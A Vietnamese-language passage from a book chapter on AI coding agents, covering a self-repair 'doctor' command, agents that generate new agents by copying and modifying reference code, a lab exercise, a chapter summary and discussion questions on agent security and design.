


**Tự phục hồi cho Agent: OpenClaw Doctor.**

Agent Điều kiện tiên quyết quan trọng để khởi động là khả năng tự sửa chữa. Lệnh `doctor` của OpenClaw là biểu hiện của khả năng này - nó có thể tự động phát hiện ba loại vấn đề:

- **Ngoại lệ cấu hình**: mã thông báo OAuth đã hết hạn, định dạng cấu hình cũ, xung đột cổng
- **Vấn đề về trạng thái**: tệp khóa phiên cũ, thiếu phần phụ thuộc của trình cắm
- **Vấn đề về tình trạng dịch vụ**: Cổng không chạy, thiếu hình ảnh hộp cát

Sau đó, vấn đề sẽ được giải quyết tự động thông qua chiến lược sửa chữa theo lớp: việc sửa chữa an toàn (chuẩn hóa cấu hình, làm sạch tệp khóa) được thực hiện tự động; các hoạt động rủi ro (khởi động lại dịch vụ, ghi đè cấu hình bắt buộc) yêu cầu xác nhận của người dùng.

Cần tránh cường điệu ở đây: các sự cố tần suất cao như mã thông báo hết hạn, tệp khóa và xung đột cổng có quy tắc phát hiện rõ ràng và hành động sửa chữa cố định. `doctor` **dựa trên một tập hợp các kiểm tra xác định** bao gồm chúng trước tiên - điều này về cơ bản không khác biệt so với các tập lệnh vận hành và bảo trì truyền thống. Điều thực sự thể hiện khả năng của Agent là lớp thứ hai: đối với các vấn đề khó khăn không được quy định trong các quy tắc xác định, `doctor` sau đó giao nó cho LLM để phân tích nhật ký lỗi, hiểu ngữ nghĩa của tệp cấu hình, suy ra nguyên nhân và kết quả của sự cố và tạo kế hoạch sửa chữa có mục tiêu. Kiểm tra xác định đảm bảo rằng các sự cố phổ biến được khắc phục ổn định và LLM có thể xử lý các sự cố dài hạn - với hai lớp hợp tác, `doctor --fix` có thể tự động giải quyết một số lượng đáng kể các sự cố cổng phổ biến. Trong chế độ "Agent sửa chữa Agent" này, khi đối tượng làm việc của Agent không còn là hệ thống bên ngoài mà là môi trường chạy của chính nó, khả năng tự phục hồi được nâng cấp từ bộ điều hợp hệ thống lên cơ sở hạ tầng khởi động Agent.

**Các mẹo chính để có được Agent để viết Agent.**

Việc tạo Agent chất lượng cao phức tạp hơn nhiều so với việc tạo mã ứng dụng thông thường vì nó đòi hỏi sự hiểu biết sâu sắc về các mẫu kiến trúc Agent, các phương pháp hay nhất và những cạm bẫy phổ biến. Nếu không có kiến thức chuyên môn về miền này, ngay cả mô hình tạo mã mạnh nhất cũng có thể tạo ra Agent có sai sót nghiêm trọng về mặt kiến trúc. Các khiếm khuyết thường gặp bao gồm:

1. **Tính ngẫu nhiên của quản lý ngữ cảnh**: Định dạng ngữ cảnh tiêu chuẩn được thảo luận trong Chương 2 không được sử dụng, trajectory được chuyển đổi thành văn bản thuần túy và được chèn vào ngữ cảnh, đồng thời bỏ qua tối ưu hóa KV Cache do thông báo có cấu trúc mang lại. Có lỗi ranh giới trong vòng gọi công cụ.
2. **Thiết kế công cụ không đều**: mô tả ngắn gọn, thiếu mô tả ranh giới sử dụng và danh sách phủ định, thiếu ví dụ cụ thể về tham số
3. **Tụt hậu trong lựa chọn công nghệ**: Có xu hướng sử dụng mô hình phổ biến nhất nhưng lỗi thời trong dữ liệu huấn luyện và API. Giải pháp: Duy trì nền tảng kiến thức SOTA hoặc cung cấp khả năng tìm kiếm cho Agent
4. **Ngắt kết nối sinh thái bên ngoài**: Sử dụng API đã lỗi thời, các thư viện không còn được bảo trì hoặc các mẫu bị lỗi

Cách hiệu quả nhất để giải quyết những vấn đề này không phải là sử dụng hết tất cả các quy tắc trong các từ gợi ý mà là cung cấp triển khai Agent chất lượng cao làm ví dụ tham khảo và hướng dẫn việc tạo mã Agent được sửa đổi trên cơ sở này, thay vì bắt đầu từ đầu.

"Tạo dựa trên ví dụ" có những ưu điểm rõ ràng: bản thân mã ví dụ là nơi chứa các phương pháp hay nhất. Agent dễ dàng đạt được điều đúng bằng cách sửa đổi ví dụ hơn là viết lại từ đầu. Những lựa chọn kiến trúc tốt sẽ được giữ lại một cách tự nhiên mà không cần phải trình bày rõ ràng mọi quy tắc trong lời nhắc.

Khi Agent nhận nhiệm vụ phát triển Agent mới, trước tiên bạn nên sao chép mã của riêng mình (hoặc cách triển khai chất lượng cao đã được chứng minh khác), sau đó thực hiện các sửa đổi có mục tiêu: điều chỉnh các system prompt để phù hợp với vai trò mới, thay thế hoặc thêm hoặc xóa các công cụ để thích ứng với các chức năng mới, sửa đổi logic nghiệp vụ nhưng vẫn giữ nguyên khung kiến trúc. Mô hình “tự sao chép và sửa đổi thích ứng” này không chỉ đảm bảo Agent mới kế thừa những ưu điểm kỹ thuật cốt lõi mà còn cho phép phân biệt theo các chiều cụ thể - giống như sao chép và đột biến gen trong sinh học.

> **Thử nghiệm 5-12 ★★★: Phát triển Agent tạo ra Agent**
>
> **Mục tiêu thử nghiệm**: Xây dựng Coding Agent với khả năng lập trình siêu dữ liệu (tức là viết chương trình có thể tạo hoặc sửa đổi các chương trình khác) và có thể tự động tạo hệ thống Agent mới theo nhu cầu của người dùng để đảm bảo tuân thủ các phương pháp hay nhất.
>
> **Giải pháp kỹ thuật**: Cung cấp triển khai Agent chất lượng cao làm ví dụ tham khảo cho Coding Agent (có thể sử dụng chính dự án ch5/coding-agent). Khi nhận được yêu cầu tạo Agent mới, trước tiên Agent sẽ sao chép mã mẫu này, sau đó thực hiện các sửa đổi có mục tiêu dựa trên nhu cầu cụ thể của người dùng.
>
> **Tiêu chí chấp nhận**: Agent được tạo có thể chạy thành công và hoàn thành các tác vụ cơ bản. Quá trình xác minh sử dụng các định dạng thông báo tiêu chuẩn và giao thức gọi công cụ, sử dụng kiểu máy hiện được đề xuất và API. Kiểm tra tính chính xác của quản lý ngữ cảnh và trạng thái trong các cuộc hội thoại nhiều lượt. So sánh hai chế độ tạo từ đầu và sửa đổi dựa trên các ví dụ để xác minh những ưu điểm của chế độ sau về chất lượng và hiệu quả.
>
>
>  có thể tạo Đại lý
>
>
Khởi động Agent là hiện thân của ứng dụng tối ưu về khả năng tạo mã - Agent có thể tạo ra Agent đạt được khả năng tự tái tạo thông minh. Ở trên, chúng tôi đã sắp xếp dòng chính hoàn chỉnh từ nền tảng của Coding Agent đến nhiều giá trị tạo mã và sau đó là khởi động.

## Tóm tắt chương này

Cốt lõi của cuộc thảo luận trong chương này luôn giống nhau: mã không chỉ là một công cụ để viết chương trình mà Agent là ngôn ngữ để suy nghĩ hình thức và diễn đạt chính xác.

Kết luận cốt lõi của phần Harness Engineering (kỹ thuật Harness) là: Lý do tại sao Coding Agent có độ hoàn thiện cao không phải vì mô hình tạo mã đặc biệt mạnh mà vì cơ sở hạ tầng được tích lũy qua nhiều thập kỷ kỹ thuật phần mềm—bộ thử nghiệm, hệ thống loại và kiểm soát phiên bản—tự nhiên tạo thành một bộ Harness mạnh mẽ. Kết luận này có giá trị khái quát cho các kịch bản Agent khác.

Phần thứ hai cho thấy giá trị rộng rãi của việc tạo mã ngoài lập trình, tương ứng với sáu chiều của văn bản chính:

- **Công cụ tư duy**: Thay thế việc thiếu tư duy xác suất bằng tính toán ký hiệu và giải ràng buộc
- **Ràng buộc quy tắc kinh doanh**: thể hiện các quy tắc kinh doanh một cách rõ ràng, cung cấp tuyến phòng thủ bảo mật xác định trong các tình huống hoạt động không thể đảo ngược - giá trị của bảo đảm bảo mật này vượt xa chi phí triển khai
- **Tạo đa phương tiện**: Tạo nội dung đa phương thức như PPT và video thông qua cơ chế người đề xuất-đánh giá
- **Bộ điều hợp hệ thống**: Tự động theo dõi quá trình phát triển định dạng để đạt được sự tự động hóa hoàn toàn về phân tích cú pháp nhật ký và chẩn đoán sự cố
- **Giao diện người dùng sáng tạo**: Tự động tạo biểu mẫu, biểu đồ trực quan và thậm chí cả các ứng dụng có thể tùy chỉnh hoàn toàn, vượt qua các giới hạn của văn bản thuần túy
- **Agent Bootstrap**: Sử dụng mã để sửa chữa và tạo Agent tương tự và triển khai Agent có thể tạo Agent

Giá trị của mã đối với Agent nằm ở chỗ nó không chỉ là phương tiện để hoàn thành nhiệm vụ mà còn là cơ chế tích lũy kiến thức, tạo công cụ và tối ưu hóa bản thân - một "siêu năng lực" thực sự.

Tại thời điểm này, chúng ta đã hoàn thành phần thảo luận về hai trong số ba trụ cột, ngữ cảnh và công cụ - và việc tạo mã là công cụ linh hoạt nhất trong số đó. Nhưng một câu hỏi quan trọng vẫn chưa được trả lời: Làm thế nào để đo lường một cách khoa học tác động của những quyết định thiết kế này? Bắt đầu từ chương tiếp theo, chúng ta chuyển sang trụ cột thứ ba - mô hình, bắt đầu bằng việc đánh giá. Chương tiếp theo sẽ xây dựng một phương pháp đánh giá hoàn chỉnh - từ xây dựng môi trường đánh giá, thiết kế tập dữ liệu đến mô hình khen thưởng và lựa chọn mô hình dựa trên đánh giá, cung cấp phương tiện xác minh định lượng cho các giải pháp kỹ thuật được thảo luận trong tất cả các chương trước.

## Câu hỏi tư duy

1. ★★ Việc tạo mã được gọi là “siêu khả năng” của Agent. Tuy nhiên, việc thực thi mã gây ra rủi ro bảo mật—mã do Agent tạo ra có thể chứa lỗ hổng, vòng lặp vô hạn hoặc cạn kiệt tài nguyên. Việc cách ly hộp cát có thể giải quyết một số vấn đề nhưng nó cũng hạn chế khả năng của mã (chẳng hạn như không thể truy cập mạng hoặc hệ thống tệp). Làm thế nào để tìm được sự cân bằng tối ưu giữa bảo mật và khả năng?
2. ★★★ Agent bootstrapping - Agent có thể tạo Agent - thực hiện "tự tái tạo thông minh". Nhưng mỗi lần khởi động có thể tạo ra những thành kiến hoặc lỗi mới, và liệu những lỗi đó có tích lũy qua nhiều thế hệ không? Làm cách nào để ngăn chặn sự xuống cấp của bootstrap Agent?
3. ★★ Tạo mã Agent có thể tự động theo dõi quá trình phát triển định dạng khi xử lý phân tích cú pháp nhật ký. Nhưng nếu thay đổi định dạng là một lỗi chứ không phải là một thay đổi có chủ ý, thì khả năng thích ứng của Agent thực sự có thể che giấu vấn đề. Agent Làm thế nào chúng ta nên phân biệt giữa "những thay đổi cần điều chỉnh" và "những điều bất thường cần được báo cáo"?
4. ★★ Chương này liên tục sử dụng cơ chế người đề xuất-đánh giá trong việc tạo PPT, chỉnh sửa video và trực quan hóa nhật ký. Ví dụ: nếu sở thích thẩm mỹ của người đánh giá không nhất quán với người dùng mục tiêu, người đánh giá cho rằng mật độ thông tin là hợp lý nhưng người dùng cảm thấy nó quá đông đúc, vòng phản hồi sẽ hội tụ về mức tối ưu cục bộ sai. Làm cách nào để phản hồi tùy chọn của người dùng cũng tham gia vào vòng lặp Người đánh giá?
5. ★★ Chương này trình bày các cách khác nhau mà Coding Agent tích lũy kinh nghiệm có được khi thực thi và gỡ lỗi trở lại cơ sở mã - viết các tệp cơ sở kiến thức, cập nhật tài liệu kiến trúc, duy trì các tệp hướng dẫn dự án và củng cố các chuỗi hoạt động thành mã. Nếu những trải nghiệm này được cải tiến sâu hơn thành các quy tắc trong lời nhắc của hệ thống thì bộ quy tắc sẽ tiếp tục mở rộng theo thời gian. Làm thế nào để “thu gom rác” các quy tắc đã định sẵn - xác định và dọn sạch các mục thừa hoặc lỗi thời? Điểm tương đồng và khác biệt giữa cơ chế tích lũy kinh nghiệm này của Agent và tính năng tự động tối ưu hóa các từ nhắc nhở của hệ thống sẽ được thảo luận trong Chương 8 là gì?
6. ★ “Các nhóm thân thiện với công việc từ xa cũng thường thân thiện với AI Agent.” Nhóm hoặc tổ chức của bạn cách “AI-ready” bao xa về mặt tài liệu kiến thức? Trở ngại lớn nhất là gì?
7. ★★★ Simon Willison đề xuất "Ba yếu tố chết người" của Agent (quyền truy cập vào dữ liệu riêng tư, tiếp xúc với nội dung không đáng tin cậy và khả năng liên lạc bên ngoài). Chương này bổ sung thêm điều thứ tư trên cơ sở này - trí nhớ bền bỉ. Bạn sẽ thiết kế chính sách bảo mật như thế nào trong môi trường sản xuất cần xử lý đồng thời cả bốn yếu tố?
8. ★★ Chế độ tạo tác cho phép SQL hoặc mã giao diện người dùng do Agent tạo ra được thực thi trực tiếp trong trình duyệt hoặc cơ sở dữ liệu của người dùng. Tuy nhiên, SQL được tạo có thể thực hiện các hoạt động phá hoại và HTML được tạo có thể chứa lỗ hổng. Làm thế nào để đảm bảo tính bảo mật của hệ thống?
9. ★★ Mã hóa các quy tắc nghiệp vụ thành xác minh nội bộ của công cụ dựa trên các giá trị đúng của cơ sở dữ liệu và sử dụng thiết kế tham số để hướng dẫn mô hình kiểm tra các điều kiện chính sách trước khi gọi. Về bản chất, cấu trúc mã được sử dụng để hạn chế hành vi Agent. Ưu điểm và hạn chế của mô hình “code as a quy tắc” này so với quy tắc ngôn ngữ tự nhiên là gì?
10. ★★ Chế độ tạo tác cho phép Agent tạo SQL hoặc mã trực quan, được giao diện người dùng thực thi trực tiếp, bỏ qua LLM để xử lý lượng lớn dữ liệu. Ưu điểm và nhược điểm của mô hình phân công lao động "Agent tạo mã và hệ thống thực thi mã" này so với mô hình "Agent trực tiếp đưa ra câu trả lời" truyền thống là gì?
